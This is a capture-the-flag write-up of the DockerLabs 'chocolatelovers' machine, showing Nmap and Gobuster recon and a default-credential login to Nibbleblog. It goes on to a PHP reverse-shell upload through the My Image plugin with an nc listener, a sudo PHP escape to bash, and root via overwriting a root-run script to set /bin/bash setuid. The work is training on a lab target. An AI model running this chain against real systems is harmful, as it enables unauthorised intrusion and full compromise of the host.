









# chocolatelovers

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| chocolatelovers | El Pingüino de Mario | easy/facil | dockerlabs |

**Summary:** The chocolatelovers machine was a web and PHP exploitation challenge built around the Nibbleblog CMS running on Apache. The only exposed service was port 80. Directory brute forcing with Gobuster revealed the Nibbleblog installation at `/nibbleblog/`, and the default administrator credentials `admin:admin` granted full access to the admin panel. From the plugins section, the My Image plugin was installed, which allowed uploading arbitrary PHP files into the `content/private/plugins/my_image/` directory. A modified `php-reverse-shell.php` payload was uploaded through the plugin's image uploader and triggered by requesting its direct URL, returning a shell as `www-data`. The TTY was upgraded with `script`. Sudo enumeration showed that `www-data` could run `/usr/bin/php` as the user `chocolate` without a password, so a one line PHP one liner launched an interactive bash shell as `chocolate`. A `ps aux` inspection revealed that the container init process runs `/opt/script.php` every five seconds as root. Because the file was owned and writable by `chocolate`, it was overwritten with a PHP payload that executed `chmod u+s /bin/bash`. Waiting a few seconds for the root cron loop to pick up the new script left `/bin/bash` setuid root, and launching `/bin/bash -p` produced an effective uid of 0. A final Perl one liner that dropped real gid and uid to 0 completed the switch to a fully privileged root shell.

---

## Reconnaissance

**1. Machine Deployment**

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/chocolatelovers]
└─$ sudo bash auto_deploy.sh chocolatelovers.tar 

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full port scan was then conducted against the target to enumerate all running services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/chocolatelovers]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-05 19:02 +0700
Nmap scan report for 172.17.0.2 (172.17.0.2)
Host is up (0.0000090s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: CE:7C:CA:CB:77:C1 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

The scan revealed a single open service, Apache HTTP on port 80, serving the default Ubuntu landing page.





**3. Directory Enumeration**

Directory brute-forcing was performed against the default web root to locate hidden applications.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/chocolatelovers]
└─$ gobuster dir -u http://$ip/nibbleblog/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,zip,tar,js,css,php,html,env,bak,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 5015]
sitemap.php          (Status: 200) [Size: 541]
content              (Status: 301) [Size: 321] [--> http://172.17.0.2/nibbleblog/content/]
themes               (Status: 301) [Size: 320] [--> http://172.17.0.2/nibbleblog/themes/]
feed.php             (Status: 200) [Size: 1289]
admin                (Status: 301) [Size: 319] [--> http://172.17.0.2/nibbleblog/admin/]
admin.php            (Status: 200) [Size: 1401]
plugins              (Status: 301) [Size: 321] [--> http://172.17.0.2/nibbleblog/plugins/]
install.php          (Status: 200) [Size: 78]
update.php           (Status: 200) [Size: 1792]
README               (Status: 200) [Size: 4628]
languages            (Status: 301) [Size: 323] [--> http://172.17.0.2/nibbleblog/languages/]
LICENSE.txt          (Status: 200) [Size: 35148]
COPYRIGHT.txt        (Status: 200) [Size: 1272]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

Gobuster revealed a full Nibbleblog installation under `/nibbleblog/`, complete with an admin panel at `admin.php`, a plugins directory, and the standard CMS support files.

---

## Initial Access

**1. Logging into the Admin Panel**

The Nibbleblog administration interface accepted the default credentials `admin:admin`.





**2. Installing the My Image Plugin**

From the plugins management screen, the My Image plugin was installed. This plugin provides an image uploader that was later repurposed to deliver a PHP webshell.



The plugin exposes an upload form for media files.





**3. Preparing the Reverse Shell Payload**

A standard PHP reverse shell was copied from the local payload collection and customised with the attacker's IP and port.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/chocolatelovers]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
                                                                                         
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/chocolatelovers]
└─$ vim shell.php                                                
                                                                                         
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/chocolatelovers]
└─$ chmod +x shell.php
```

**4. Uploading the Webshell**

The modified `shell.php` was uploaded through the My Image plugin. The file was accepted by the uploader.



The file has been uploaded successfully.

**5. Setting Up the Listener**

A netcat listener was started on the attacking machine to catch the incoming reverse shell.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**6. Triggering the Reverse Shell**

The uploaded PHP file was requested directly in the browser, firing the reverse shell back to the listener.



**7. Catching the Shell and Upgrading the TTY**

The connection returned a shell as `www-data`. Because the process lacked a TTY, the session was upgraded with `script` and fully stabilised.

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 46998
Linux 038df89392c5 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
 09:51:17 up 12 min,  0 users,  load average: 0.25, 0.22, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
$ which script
/usr/bin/script
$ script -qc /bin/bash /dev/null
www-data@038df89392c5:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ stty raw -echo; fg                        
[1]  + continued  nc -lvnp 4444

www-data@038df89392c5:/$ export TERM=xterm
www-data@038df89392c5:/$ export SHELL=/bin/bash
www-data@038df89392c5:/$ stty rows 80 cols 130
```

**8. System Enumeration**

The local users and the home directory layout were inspected to map the attack surface.

```bash
www-data@038df89392c5:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
chocolate:x:1000:1000::/home/chocolate:/bin/bash
www-data@038df89392c5:/$ ls -la /home
total 12
drwxr-xr-x 1 root      root      4096 May  7  2024 .
drwxr-xr-x 1 root      root      4096 Aug  7 09:42 ..
drwxr-xr-x 2 chocolate chocolate 4096 May  7  2024 chocolate
```

The system has a single human user, `chocolate`, alongside `www-data`. The sudo rights of `www-data` were checked next.

```bash
www-data@038df89392c5:/home/chocolate$ sudo -l
Matching Defaults entries for www-data on 038df89392c5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 038df89392c5:
    (chocolate) NOPASSWD: /usr/bin/php
```

The `www-data` account can run `/usr/bin/php` as `chocolate` without a password.

---

## Privilege Escalation

**1. Escalation from www-data to chocolate**

The sudo rule was exploited with a PHP one liner that spawns an interactive bash shell as `chocolate`.

```bash
www-data@038df89392c5:/home/chocolate$ sudo -u chocolate /usr/bin/php -r 'system("/bin/bash -i");'
chocolate@038df89392c5:~$ id     
uid=1000(chocolate) gid=1000(chocolate) groups=1000(chocolate)
```

The switch to the `chocolate` account succeeded. A process listing exposed a critical scheduled task.

```bash
chocolate@038df89392c5:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2624  1636 ?        Ss   09:42   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```

The container init process runs `/opt/script.php` every five seconds as root. The script and its directory were inspected.

```bash
chocolate@038df89392c5:~$ ls -la /opt
total 12
drwxr-xr-x 1 root      root      4096 May  7  2024 .
drwxr-xr-x 1 root      root      4096 Aug  7 09:42 ..
-rw-r--r-- 1 chocolate chocolate   59 May  7  2024 script.php
chocolate@038df89392c5:~$ cat /opt/script.php 
<?php echo 'Script de pruebas en fase de beta testing'; ?>
```

**2. Proof of Root Execution**

Because `/opt/script.php` is owned by `chocolate`, the file can be overwritten. The writable directory plus the root cron loop turn this into a reliable root execution primitive. The script was replaced with a payload that writes command output to a proof file.

```bash
chocolate@038df89392c5:~$ echo '<?php system("id > /tmp/proof"); ?>' > /opt/script.php 
chocolate@038df89392c5:~$ cat /tmp/proof  
uid=0(root) gid=0(root) groups=0(root)
```

The `id` output confirmed the script executes with uid 0. The payload was then changed to set the setuid bit on `/bin/bash`.

```bash
chocolate@038df89392c5:~$ echo '<?php system("chmod u+s /bin/bash"); ?>' > /opt/script.php 
chocolate@038df89392c5:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

**3. Root Shell**

The setuid root bit is now present on `/bin/bash`. Launching it with the `-p` flag preserves the effective uid.

```bash
chocolate@038df89392c5:~$ /bin/bash -p
bash-5.0# id
uid=1000(chocolate) gid=1000(chocolate) euid=0(root) groups=1000(chocolate)
```

The effective uid is root. A Perl one liner was used to drop the real gid and uid to 0 and spawn a fresh bash, completing the privilege escalation.

```bash
bash-5.0# perl -e '$ENV{PATH}="/usr/bin:/bin"; use POSIX qw(setuid setgid); POSIX::setgid(0); POSIX::setuid(0); exec "/bin/bash";'
root@038df89392c5:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root),1000(chocolate)
root
038df89392c5
root@038df89392c5:~# su -
root@038df89392c5:~# id
uid=0(root) gid=0(root) groups=0(root)
```

A fully privileged root shell was achieved on the chocolatelovers machine.

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified Apache HTTP on port 80 as the only open service. Directory brute-forcing with Gobuster against `/nibbleblog/` revealed a complete Nibbleblog CMS installation, including `admin.php`, the plugins directory, and the standard CMS files.
2. **Vulnerability Discovery**: The Nibbleblog admin panel accepted the default credentials `admin:admin`. The My Image plugin, which allows media uploads, was identified as the vector to deploy a web shell.
3. **Exploitation**: A customised `php-reverse-shell.php` was uploaded through the My Image plugin and triggered by requesting its direct URL, returning a shell as `www-data`. The TTY was upgraded with `script` for a stable interactive session.
4. **Internal Enumeration**: `sudo -l` showed that `www-data` could run `/usr/bin/php` as `chocolate` without a password, yielding a shell as `chocolate`. A `ps aux` inspection revealed that the init process runs `/opt/script.php` every five seconds as root, and the script was owned and writable by `chocolate`.
5. **Privilege Escalation**: The script was overwritten with a PHP payload that first proved root execution and then set the setuid bit on `/bin/bash`. Running `/bin/bash -p` gave an effective uid of 0, and a Perl one liner that reset the real gid and uid completed the escalation to a fully privileged root shell.
